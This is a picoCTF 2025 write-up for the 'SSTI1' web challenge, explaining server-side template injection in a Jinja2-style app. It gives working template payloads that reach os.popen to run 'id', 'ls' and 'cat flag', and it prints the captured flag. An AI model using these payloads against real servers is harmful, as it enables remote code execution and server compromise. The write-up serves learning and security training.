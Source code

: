 # SSTI1 - picoCTF 2025

## 📂 Category
- Web Exploitation  
- Difficulty: Easy  

---

## 🧩 Challenge Description
The challenge provided a simple web form that reflected user input. 

---

## 🔍 Initial Observations
- Entering expressions like `{{7*7}}` returned `49`, indicating possible Server-Side Template Injection (SSTI).
---

## 🧪 Exploitation Steps

1. Entered: {{7*7}} → Response was `49` → Confirmed SSTI.
2. Tried: {{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
3. Got a system-level response confirming Remote Code Execution (RCE).
4. Ran: {{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
5. Server files listed.
6. Finally: {{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
7. Revealed the flag.

---

🏁 Flag
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_424a1494}

---

🧠 What I Learned

What is a Template Engine?
A template engine helps generate dynamic web pages. Instead of hardcoding values, you write placeholders like:
<p>Hello, {{ name }}!</p>

The server fills in the actual data.

What is SSTI?
Server-Side Template Injection occurs when user input is unsafely inserted into a template. If an input like {{7*7}} returns 49 (7 times 7 = 49), the server is evaluating user input as code. Running 7*7 is just the standard convention, but you can run any expression, mathematical or not.

If unpatched, SSTI can lead to:
- Data leaks
- Remote code execution (RCE)
- Full server compromise

---

📚 References
https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
